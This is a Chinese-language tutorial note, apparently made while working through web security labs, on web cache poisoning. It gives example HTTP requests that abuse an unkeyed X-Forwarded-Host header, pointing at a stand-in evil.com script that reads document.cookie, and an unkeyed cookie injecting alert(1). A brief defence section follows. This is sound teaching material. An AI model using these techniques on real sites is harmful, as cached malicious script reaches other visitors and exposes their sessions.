 # Web Cache Poisoning
## 成因
### Web Cache 問題 
* 藉由鍵值來判斷是否已存在 cache 中，如果存在就從 cache 拿。
* 像是以下請求，藉由 `/blog/post.php?mobile=1` 與 `example.com` 作為鍵。
```
GET /blog/post.php?mobile=1 HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 … Firefox/57.0
Cookie: language=pl;
Connection: close
```
* 因此以下請求會被視為可以從 cache 中取出。
```
GET /blog/post.php?mobile=1 HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 … Firefox/57.0
Cookie: language=en;
Connection: close
```
* 但會出現的問題，請求是 `language=en;`，但回應從快取取出因此會是 `language=pl;`
### Web Cache Poisoning
* 攻擊者向伺服器發起惡意請求，使惡意請求的回應儲存於快取伺服器中，導致其他使用者從快取伺服器中得到惡意內容回應。
## 影響
* web cache poisoning，主要影響從快取伺服器取得資料的使用者。
* 頁面受歡迎程度，將會影響範圍。
## 攻擊方法
### unkeyed header
* 可以發現快取回應中 `src="//example.com/..."`，受到我們的 `X-Forwarded-Host` 影響
* `?cb=123` 用來作為測試 cache 的隨機值。
```
GET /?cb=123 HTTP/2
X-Forwarded-Host: example.com
```
```
<script type="text/javascript" src="//example.com/resources/js/tracking.js">
```
* 因此可以藉由此方法在 `evil.com/resources/js/tracking.js` 加入
```
alert(document.cookie)
```
* 之後將 `X-Forwarded-Host` 更改為 `evil.com/resources/js/tracking.js`，然後進行請求，使其存入快取。之後使用者就會引入我們的惡意腳本。
```
GET / HTTP/2
X-Forwarded-Host: evil.com/resources/js/tracking.js
```
### unkeyed cookie
* 一般請求，請求中的 cookie `fehost=prod-cache-01` 寫入回應中 `"frontend":"prod-cache-01"`。
```
GET / HTTP/2
Host: 0a2700490423b42d80524e6a00190035.web-security-academy.net
Cookie: session=jTauCF19hdPFqQmEd0sbMw1ACJmRkCTW; fehost=prod-cache-01
```
```
<script>
    data = {
        "host":"0a2700490423b42d80524e6a00190035.web-security-academy.net",
        "path":"/",
        "frontend":"prod-cache-01"
    }
</script>
```
* 惡意請求，請求中的 cookie `fehost="-alert(1)-"` 寫入回應中執行 `alert(1)`。
```
GET / HTTP/2
Host: 0a2700490423b42d80524e6a00190035.web-security-academy.net
Cookie: session=jTauCF19hdPFqQmEd0sbMw1ACJmRkCTW; fehost="-alert(1)-"
```
```
<script>
    data = {
        "host":"0a2700490423b42d80524e6a00190035.web-security-academy.net",
        "path":"/",
        "frontend":""-alert(1)-""
    }
</script>
```
## 防禦方法
* 關閉未使用的標頭。
* 僅針對靜態檔案做 cache，但也要確保攻擊者不會將其導向惡意靜態檔案。
## 參考
* https://portswigger.net/research/practical-web-cache-poisoning
---
###### tags: `web security`